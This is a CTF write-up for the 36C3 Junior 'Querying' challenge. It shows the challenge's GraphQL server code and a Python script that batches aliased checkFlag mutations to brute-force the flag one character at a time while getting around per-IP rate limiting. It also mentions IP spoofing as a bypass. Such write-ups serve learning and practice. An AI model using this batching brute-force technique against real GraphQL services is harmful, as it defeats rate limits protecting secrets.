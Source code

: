 ```yaml
---
title: 36C3 Querying
author: Marius Kimmina
date: 2021-01-01 14:10:00 +0800
categories: [36C3 CTF]
tags: [GraphQL]
published: true
---
```



### 0x0. Introduction
This Challenge was part of the *36C3 Junior CTF*. It was a "Web" challenge with a difficulty rating of "Medium", you were given an URL for the live challenge server and also a copy of the server (with a fake flag obv) as a Docker Container to run locally to test your exploits. The local copy was needed because the real server would give you an timeout after every request to make bruteforcing the solution harder. Sadly I was not able to solve this challenge before the timeup to get some points for it but atleast I was able to complete it shortly afterwards for my own sake.

### 0x1. Challenge Description
```
In German, Graf means count. Anyway I'm certain he likes pie. Who doesn't? He also won't give you the Flag as he keeps track of every request. Nothing to see here, please move along. http://199.247.4.207:4000/
```
There was also a file for the local copy attached which looked like this:

.  
├── dist.tar.gz  
├── docker-compose.yml  
├── Dockerfile  
├── package.json  
├── package-lock.json  
├── prisma  
│   ├── datamodel.prisma  
│   ├── prisma.yml  
│   └── seed.graphql  
├── src  
│   ├── generated  
│   │   └── prisma-client  
│   │       ├── index.d.ts  
│   │       ├── index.js  
│   │       └── prisma-schema.js  
│   ├── index.js  
│   └── schema.graphql  
└── yarn.lock  

### 0x2. Looking at the source Code

The most important file for this challenge was the index.js which contained the following code:

```js
const { GraphQLServer } = require('graphql-yoga')
const LRU = require('lru-cache')

const { prisma } = require('./generated/prisma-client')

const MAX_WAIT = 10 * 1000 // 10 seconds

const FLAG = "junior-THIS_IS_A_DUMMY"
const FLAG_REGEX = /$junior-[a-zA-Z0-9_]24^/.compile()

const requestsPerClient = new LRU({
  max: 16 * 1024,
  maxAge: 1000 * 60
})

function bruteforceProtection(context) {
  const ip = context.request.ip
  if (context.request.headers["admin"]) {
    console.log("ip", ip)
    let requests = requestsPerClient.get(ip) || 0
    const waitTime = 15 * requests * 1000
    requestsPerClient.set(ip, requests + 1)
    return new Promise(
      resolve => setTimeout(
        () => (console.log("finished", ip, waitTime) || resolve()), waitTime
      )
    )
  }
  return Promise.resolve()
}

const resolvers = {
  Query: {
    feed: (parent, args, context) => {
      return context.prisma.posts({ where: { published: true } })
    },
    drafts: (parent, args, context) => {
      return context.prisma.posts({ where: { published: false } })
    },
    post: (parent, { id }, context) => {
      return context.prisma.post({ id })
    },
  },
  Mutation: {
    checkFlag(parent, {flag}, context) {
      if (!context.request.headers["admin"]) throw "this got changed!"
      if (FLAG_REGEX.exec(flag) && flag === FLAG) return FLAG.length
      let i = 0
      while (flag[i] === FLAG[i]) i++
      return i
    },
    createDraft(parent, { title, content }, context) {
      return context.prisma.createPost({
        title,
        content,
      })
    },
    deletePost(parent, { id }, context) {
      return context.prisma.deletePost({ id })
    },
    publish(parent, { id }, context) {
      return context.prisma.updatePost({
        where: { id },
        data: { published: true },
      })
    },
  },
}

const server = new GraphQLServer({
  typeDefs: './src/schema.graphql',
  resolvers,
  context: async (request, response, fragmentReplacements) => ({
    ...request,
    prisma,
    console: await bruteforceProtection(request)
  }),
})

server.start(() => console.log('Server is running on http://localhost:4000'))
```

From the "FLAG_REGEX" we know that the Flag consist of "Junior-" and 24 Characters containing lowercase, uppercase, digits and underscores.
We can use the "Check Flag" function which will tell us how many letters of our input match the actual Flag. So we could give the Webserver an Input like this:

```js
mutation { 
    checkFlag(flag: "j")
}
```

The Server would then return "1".  
This is somewhat screaming for a bruteforce, you can guess one letter at a time and as soon as the integer responds from the server increases you go for the next letter. But there is "BruteforceProtection" build into this which will give us an timeout after every request based on our IP. You could theoretically work around this protection by spoofing your IP after every request, which was some people acctaully did and I won't blame them, whatever works works. But there is another more interesting solution which I want to focus on here.

### 0x3. Solution

The catch is, in graphql you can provide multiple mutations at once. So it is possible to ask the Server for every possible character at a position in a single request. Such a request would look like this:

```js
mutation {
  name1: checkFlag(flag: "junior-A"),
  name2: checkFlag(flag: "junior-B"),
  ...
}
```


Since we need to get 24 characters with this approach we need 24 requests to the server to get the full Flag, which still took a bit but returned the flag in a somewhat reasonable amount of time. 
I came up with the following python Script to get the Flag:

```py
import requests
import operator

url = "http://199.247.4.207:4000/"
header = {
    "content-type": "application/json",
    "admin": "true"
}

base_check = 'checkFlag(flag: "junior-'
name = "name"
possible = [
    'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '_'
]

start_query = "mutation {\n"
end_query = "}"
number = 1
i = 0
while (i < 24):
    print("getting charakter " +  str(i))
    for letter in possible:
        start_query = start_query + name + str(number) + ":" + base_check + letter + '")' + "," + "\n"
        number = int(number) + 1
    i = i + 1
    number = 1
    start_query = start_query + end_query
    r = requests.post(url, json={"query": start_query}, headers=header)
    response = r.text
    data = r.json()["data"]
    correct = max(data.items(), key=operator.itemgetter(1))[0]
    right_character = correct[4:]
    base_check += possible[int(right_character)-1]
    start_query = "mutation {\n"
    print(base_check)
```

Flag: junior-Batching_Qu3r1e5_is_FUN1
